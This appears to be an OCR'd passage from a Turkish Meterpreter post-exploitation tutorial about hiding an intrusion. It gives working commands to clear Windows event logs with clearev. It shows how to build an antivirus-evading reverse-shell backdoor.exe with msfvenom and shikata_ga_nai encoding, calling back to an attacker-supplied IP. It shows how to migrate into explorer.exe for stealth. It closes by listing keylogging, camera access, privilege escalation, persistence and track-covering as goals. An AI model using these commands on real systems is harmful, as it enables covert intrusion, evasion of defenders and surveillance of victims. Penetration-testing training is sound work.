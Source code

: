 ### 📌 3. Meterpreter ile Manuel Sızma Sonrası Güvenlik Açıklarını Gizleme
### ✔ Logları Temizleme:
```bash
clearev
```
### ✔ Antivirüs Bypass İçin Encoding Kullanma:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o backdoor.exe
```
### ✔ Process Injection ile Gizli Çalışma:
```bash
migrate -P explorer.exe
```
Bu işlem Meterpreter’ı explorer.exe içine enjekte ederek tespiti zorlaştırır.


### 🚀 Sonuç
### ✔ Meterpreter, hedef sistemde sessiz ve güçlü bir erişim sağlar.
✔ Sızma sonrası dosya yönetimi, ekran görüntüsü alma, kamera erişimi, keylogger gibi işlemler yapılabilir.
✔ Yetki yükseltme ile sistem yöneticisi hakları elde edilebilir.
✔ Arka kapı bırakılarak kalıcı erişim sağlanabilir.
✔ İz bırakmamak için log temizleme ve antivirüs bypass yöntemleri uygulanabilir.








